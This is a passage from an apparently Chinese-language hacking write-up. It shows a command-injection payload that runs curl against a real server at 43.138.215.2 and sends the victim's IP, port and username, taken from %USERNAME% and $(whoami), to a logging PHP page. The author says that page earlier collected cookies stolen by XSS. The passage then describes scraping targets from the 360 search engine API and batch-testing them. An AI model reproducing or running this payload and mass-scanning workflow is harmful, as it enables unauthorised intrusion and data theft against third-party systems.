 


### 3.命令执行修改

尝试过用ping  dnslog但是不好用

所以修改成了curl 访问带上参数（ip/port/用户名）访问我服务器指定php网页。

网页进行记录保存在服务器txt文件中

```
command = '  curl http://43.138.215.2/co.php?user=%USERNAME%---'+ip+':'+str(port)+'---$(whoami)'

PS:co.php本来是被我用来测试XSS接收coockie的

执行的命令也看到了如下
curl http://43.138.215.2/co.php?user=%USERNAME%---'+ip+':'+str(port)+'---$(whoami)

重点是里面两个参数 %USERNAME%和$(whoami)
%USERNAME%：获取win系统用户名
$(whoami)：获取linux系统用户名
```

## 四、获取测试目标

接下来就是获取目标。

我用的360搜索引擎API。将获取到的目标写入url.txt，再用上面脚本批量测试命令执行

![](assets/VryZdb.png)


